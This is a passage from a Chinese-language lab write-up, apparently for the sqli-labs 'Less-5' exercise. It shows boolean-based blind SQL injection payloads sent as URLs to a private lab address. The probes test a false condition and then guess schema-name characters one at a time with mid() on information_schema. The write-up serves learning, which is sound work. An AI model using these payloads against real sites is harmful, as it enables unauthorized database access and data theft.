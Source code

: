 ![](assets/markdown-img-paste-20180418154206722.png)

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=2--+`

![](assets/markdown-img-paste-20180418154236815.png)

说明只要控制2是1那就可以，并且我们前面说了很多查询得出的结果都有1

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20schema_name%20from%20information_schema.schemata%20limit%200,1),1,1)=%27i%27)--+`

![](assets/markdown-img-paste-20180418154711678.png)

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20schema_name%20from%20information_schema.schemata%20limit%200,1),1,1)=%27a%27)--+`

![](assets/markdown-img-paste-20180418154742993.png)
